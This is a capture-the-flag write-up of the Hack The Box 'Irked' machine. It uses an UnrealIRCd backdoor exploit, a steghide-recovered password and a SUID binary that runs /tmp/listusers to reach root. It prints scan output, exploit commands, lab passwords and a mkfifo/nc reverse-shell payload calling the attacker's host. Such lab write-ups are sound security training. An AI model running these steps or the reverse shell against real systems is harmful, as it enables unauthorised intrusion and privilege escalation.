






---
tags:
  - unrealircd
  - steganography
group: Linux
---


- Machine : https://app.hackthebox.com/machines/irked
- Reference : https://0xdf.gitlab.io/2019/04/27/htb-irked.html
- Solved : 2025.3.8. (Sat) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Open ports: **22 (SSH), 80 (HTTP), 111 (RPC), 6697/8067/65534 (UnrealIRCd), 51819 (RPC status)**.
    - **Web Enumeration**:
        - Found `/manual` directory (Apache manual).
        - Noted webpage comment: **"IRC is almost working!"**, hinting at UnrealIRCd.
    - **IRC Enumeration**:
        - Connected via `hexchat`, but no visible channels.
    
2. **Exploiting UnrealIRCd**
    - **Vulnerable Service**: UnrealIRCd 3.2.8.1 **backdoor**.
    - **Exploit Used**: `searchsploit unrealircd` revealed an **RCE exploit**.
    - **Execution**:
        - Ran Python exploit to send remote commands.
        - Set up a Netcat listener and obtained a shell as **`ircd`**.
    
3. **Privilege Escalation to `djmardov`**
    - **File Enumeration**:
        - Found `.backup` file in `/home/djmardov/Documents/`.
        - Contained **steganography-related password**: `UPupDOWNdownLRlrBAbaSSss`.
    - **Steganography**:
        - Extracted `pass.txt` from an image using `steghide`.
        - **Password extracted**: `Kab6h+m+bbp2J:HG`.
    - **SSH Login**:
        - Used extracted password to SSH into **`djmardov`**.
    
4. **Privilege Escalation to `root`**
    - **SUID Enumeration**:
        - Found an **unknown SUID binary**: `/usr/bin/viewuser`.
    - **Exploiting `viewuser`**:
        - Executing the binary attempted to run `/tmp/listusers`.
        - Created a malicious `/tmp/listusers` script with a **reverse shell payload**.
        - Ran `viewuser` to trigger execution.
    - **Root Shell Obtained**:
        - Connected to the listener and gained a shell as **`root`**.

### Key Techniques:

- **Service Exploitation**: UnrealIRCd 3.2.8.1 backdoor.
- **Steganography**: Extracting credentials from an image.
- **Privilege Escalation**:
    - **SUID abuse**: Exploiting `viewuser` to execute arbitrary commands as root.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/irked]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.117
Performing quick port scan on 10.10.10.117...
Found open ports: 22,80,111,6697,8067,51819,65534
Performing detailed scan on 10.10.10.117...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 03:15 MST
Nmap scan report for 10.10.10.117
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42957/tcp6  status
|   100024  1          51819/tcp   status
|   100024  1          54850/udp6  status
|_  100024  1          59978/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
51819/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.99 seconds
```

### http(80)



The page has a comment "IRC is almost working!".
Given that message, there might be something with IRC service.

Gobuster has found `/manual`.

```bash
┌──(kali㉿kali)-[~/htb/irked]
└─$ gobuster dir -u http://10.10.10.117 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.117
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.117/manual/]
```

It's just a Apache HTTP server manual.



### IRC(6697)

To communicate with IRC service, I need a designated software such as `hexchat`, or `weechat`.
Let me use `hexchat` this time. (`sudo apt install hexchat`)



After setting up a user information, I added Network : `10.10.10.117/6697`
Then clicked "Edit" button, and check "Connect to selected server only".
Also, need to set the IP address "New Server/6697" -> "10.10.10.117/6697".



Then, click "Connect" button, and soon will see this windows;



Check "Open the channel list". But the list is empty.




# Shell as `ircd`

### Exploit UnrealIRCd Backdoor

Since I have nothing to do further with the app, I searched if there's any exploit.

```bash
┌──(kali㉿kali)-[~/htb/irked]
└─$ searchsploit unrealircd  
----------------------------------------------------------- --------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- --------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploi | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow    | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute             | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                  | windows/dos/27407.pl
----------------------------------------------------------- --------------------
```

Since the system is linux, I excluded two exploits for windows.
I also found python version exploit : https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/tree/master

After changing `LHOST`, and `LPORT`, I ran the exploit.
(Need to setup a listener ahead)

```bash
┌──(kali㉿kali)-[~/htb/irked]
└─$ python ircd_exploit.py -payload bash 10.10.10.117 6697
Exploit sent successfully!
```

Soon, the listener spawned a shell.

```bash
┌──(kali㉿kali)-[~/htb/irked]
└─$ nc -nlvp 9000           
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.117] 53112
bash: cannot set terminal process group (611): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
ircd@irked:~/Unreal3.2$ whoami
whoami
ircd
```

I got `ircd`'s shell.


# Shell as `djmardov`

### Enumeration

I enumerated `djmardov`'s home directory. I wasn't able to read most of the files due to permission, but I found one hidden file on `/home/djmardov/Documents` directory.

```bash
ircd@irked:/home/djmardov/Documents$ ls -al
ls -al
total 12
drwxr-xr-x  2 djmardov djmardov 4096 Sep  5  2022 .
drwxr-xr-x 18 djmardov djmardov 4096 Sep  5  2022 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
lrwxrwxrwx  1 root     root       23 Sep  5  2022 user.txt -> /home/djmardov/user.txt
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

It seems that the password we found is related with steganography.
Since the image at the http main page is the only image that I've seen, let's download and try to investigate it.

### Steganography

With `steghide`, let's extract data from the image.

```bash
┌──(kali㉿kali)-[~/htb/irked]
└─$ steghide extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".


┌──(kali㉿kali)-[~/htb/irked]
└─$ cat pass.txt          
Kab6h+m+bbp2J:HG
```

The hidden file `pass.txt` is successfully extgracted.
Using this password, let's try logging in as `djmardov`.

```bash
┌──(kali㉿kali)-[~/htb/irked]
└─$ ssh djmardov@10.10.10.117            
The authenticity of host '10.10.10.117 (10.10.10.117)' can't be established.
ED25519 key fingerprint is SHA256:Ej828KWlDpyEOvOxHAspautgmarzw646NS31tX3puFg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.117' (ED25519) to the list of known hosts.
djmardov@10.10.10.117's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:~$ whoami
djmardov
```

I got `djmardov`'s shell!


# Shell as `root`

### Enumeration

Let's run `linPEAS`.

```bash
╔══════════╣ My user
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#users      
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)


╔══════════╣ Users with console
djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash
ircd:x:1001:1001::/home/ircd:/bin/sh
root:x:0:0:root:/root:/bin/bash
speech-dispatcher:x:112:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh


╔══════════╣ Last time logon each user
Username         Port     From             Latest
root             tty3                      Mon Sep  5 08:13:00 -0400 2022
djmardov         pts/0    10.10.14.4       Sat Mar  8 07:37:41 -0500 2025


╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                                                           
strace Not Found                                                                             
-rwsr-xr-- 1 root messagebus 355K Nov 21  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper   
-rwsr-xr-x 1 root root 9.3K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 14K Sep  8  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 550K Nov 19  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14K Oct 14  2014 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper (Unknown SUID binary!)
-rwsr-xr-x 1 root root 1.1M Feb 10  2018 /usr/sbin/exim4
-rwsr-xr-- 1 root dip 332K Apr 14  2015 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 43K May 17  2017 /usr/bin/chsh
-rwsr-sr-x 1 root mail 94K Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 77K May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 38K May 17  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-sr-x 1 daemon daemon 50K Sep 30  2014 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 18K Sep  8  2016 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-sr-x 1 root root 9.3K Apr  1  2014 /usr/bin/X
-rwsr-xr-x 1 root root 52K May 17  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 52K May 17  2017 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 7.2K May 16  2018 /usr/bin/viewuser (Unknown SUID binary!)
-rwsr-xr-x 1 root root 95K Aug 13  2014 /sbin/mount.nfs
-rwsr-xr-x 1 root root 38K May 17  2017 /bin/su
-rwsr-xr-x 1 root root 34K Mar 29  2015 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 34K Jan 21  2016 /bin/fusermount
-rwsr-xr-x 1 root root 158K Jan 28  2017 /bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)
-rwsr-xr-x 1 root root 26K Mar 29  2015 /bin/umount  --->  BSD/Linux(08-1996)
```

Found two routes to try.
- Using `video` membership to capture `root`'s screen.
- `/usr/bin/viewer` is unknown SUID binary.

I tried to fetch the `root`'s screen image by capturing `/etc/fb0`, but nothing came up.

### SUID binary - `viewuser`

Let's check what this binary is.

```bash
djmardov@irked:/tmp$ file /usr/bin/viewuser
/usr/bin/viewuser: setuid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=69ba4bc75bf72037f1ec492bc4cde2550eeac4bb, not stripped
```

Let's run it for test.

```bash
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-03-08 05:06 (:0)
djmardov pts/0        2025-03-08 07:37 (10.10.14.4)
sh: 1: /tmp/listusers: not found
```

It seems that it's retrieving logon session.
After that, it tries to run `/tmp/listusers`, but encounters an error "not found".

Let's create the file with reverse shell payload.

```bash
djmardov@irked:/tmp$ cat listusers
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9001 >/tmp/f


djmardov@irked:/tmp$ chmod +x listusers
```

Then I ran the `viewuser` binary again after setting up a listener.

```bash
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-03-08 05:06 (:0)
djmardov pts/0        2025-03-08 07:37 (10.10.14.4)
```

Then the listener soon spawns a shell.

```bash
┌──(kali㉿kali)-[~/htb/irked]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.117] 34710
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
# whoami
root
```

I got a `root` shell.